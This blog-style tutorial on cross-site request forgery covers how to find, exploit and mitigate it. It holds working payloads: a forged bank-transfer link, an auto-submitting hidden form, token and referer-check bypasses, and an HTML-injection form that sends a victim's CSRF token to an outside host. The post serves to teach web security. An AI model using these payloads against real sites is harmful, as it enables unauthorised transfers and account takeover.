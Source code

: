 ```yaml
---
layout: post
title:  "CSRF Attacks - How to Find, Exploit and fix them"
author: imran
categories: [ cybersecurity,csrf,web-attacks ]
image: assets/images/26.png
---
```




### What is csrf

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application. 

### CSRF flaw and its exploitation

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf (though note that this is not true of login CSRF, a special form of the attack let me describe it ). For most sites, browser requests automatically include any credentials associated with the site, such as the user’s session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim. CSRF attacks target functionality that causes a state change on the server, such as changing the victim’s email address or password, or purchasing something. 


### CSRF Attack Example:

Before executing an assault, a perpetrator typically studies an application in order to make a forged request appear as legitimate as possible. 
For example, a typical GET request for a $100 bank transfer might look like:
```
GET http://netbank.com/transfer.do?acct=PersonB&amount=$100 HTTP/1.1
```
An attacker can modify this script so it results in a $100 transfer to their own account. Now the malicious link look like:
```
GET http://netbank.com/transfer.do?acct=AttackerA&amount=$100 HTTP/1.1
```
A bad actor can embed the request into an innocent looking hyperlink:
```
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>
```
Next the attacker can distribute the hyperlink via email to a large number of bank customers. Those who click on the link while logged into their bank account will unintentionally initiate the $100 transfer.
 Note that if the bank’s website is only using POST requests, it’s impossible to frame malicious requests using a  href tag. However, the attack could be delivered in a form tag with automatic execution of the embedded JavaScript. 
 his is how such a form may look like:
 ```
  <body onload="document.forms[0].submit()">
   <form action="http://netbank.com/transfer.do" method="POST">
     <input type="hidden" name="acct" value="AttackerA"/>
     <input type="hidden" name="amount" value="$100"/>
     <input type="submit" value="View my pictures!"/>
   </form>
 </body>
 ```

##  Bypasses for CSRF attack:

#### Change the request method

Another thing worth trying is changing the request method of the request. If the sensitive request that you would like to forge is sent via the POST method, try converting the request to a GET request. And if the action is done via a GET, try converting it into a POST. The application might still execute the action and the same protection mechanism is often not in place.
For example, this request:
```
POST /change_password
POST body:
new_password=qwerty
```
Can be rewritten as:
```
GET /change_password?new_password=qwerty
```
#### CSRF Protection via Tokens

Just because a site is using CSRF tokens does not mean that it is validating them properly. Here are a few things that you can try to bypass CSRF protection via tokens.

#### Delete the token param or send a blank token

Not sending a token works fairly often because of this common application logic mistake: applications sometimes only check the validity of the token if the token exists, or if the token parameter is not blank. In this case, sending a request without the token, or a blank value as the token may be all you need to bypass the protection.
For example, if a legitimate request looks like this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```

Try this:

```http
POST /change_password
POST body:
new_password=qwerty
```

Or, this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=
```


#### Use another session’s CSRF token

The application might only be checking if the token is _valid_ or not, and not checking if it _belongs to the current user_. If that’s the case, you can simply hard code your own CSRF token into the payload. Let’s say the victim’s token is _871caef0757a4ac9691aceb9aad8b65b_, and yours is YOUR_TOKEN. You can obtain your own CSRF token easily but not the victim’s token. Try to bypass the CSRF protection by providing your own token in the place of the legitimate token.
In other words, instead of sending this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```


Send this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=YOUR_TOKEN
```


## Referer Based CSRF Checks
Let’s say that _attacker.com_ is a domain that you own. And _bank.com_ is the site that you are attacking. The site is not using CSRF tokens but is checking the referer header instead. What can you do now?

- Sending a blank tokens is one of the first things that you should do, sometimes all you need to do to bypass a referer check is to simply not send a referer. To do this, you can add the following meta tag to the page hosting your payload:
```
<meta name=”referrer” content=”no-referrer”>
```
The application might only be validating the referer if one is sent, in that case, you’ve successfully bypassed its CSRF protection!




#### Bypass the regex
If the referer check is based on a whitelist, you can try bypassing the regex used to validate the URL. For example, you can try placing victim domain name in referer URL as a subdomain or as a directory:
If the site is looking for “_bank.com”_ in the referer URL, maybe “_bank.com.attacker.com”_ or “_attacker.com/bank.com”_ will work.


#### Extracting token via HTML injection

This technique utilizes HTML injection vulnerability using which an attacker can plant a logger to extract the CSRF token from that web page and use that token. An attacker can plant a link such as
```
<form action=”http://shahmeeramir.com/acquire_token.php”></textarea>
```
#### Decoding CSRF tokens:

Another method to bypass CSRF is to identify the algorithm of the CSRF token. In my experience CSRF tokens are either MD5 or Base64 encoded values. You can decode that value and encode the next one in that algorithm and use that token. For instance “a0a080f42e6f13b3a2df133f073095dd” is MD5(122). You can similarly encrypt the next value MD5(123) to for CSRF token bypass.


### Mitigation of CSRF attack

A number of effective methods exist for both prevention and mitigation of CSRF attacks. From a user’s perspective, prevention is a matter of safeguarding login credentials and denying unauthorised actors access to applications. The most robust way to defend against CSRF attacks is to include a CSRF token within relevant requests. The token should be:
-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.


## Conclusion:

CSRF is a vulnerability that allows attackers to circumvent the SOP (same origin policy) which leas to various unintended actions on victims account.

There are various bypasses to bypass the csrf protection implemented by the web applications as below:

- Sending only csrf token  header with empty token.

- Use csrf token generated in another session.

- Try submitting same length randomly generated csrf token to check if it validation is only based on token length.
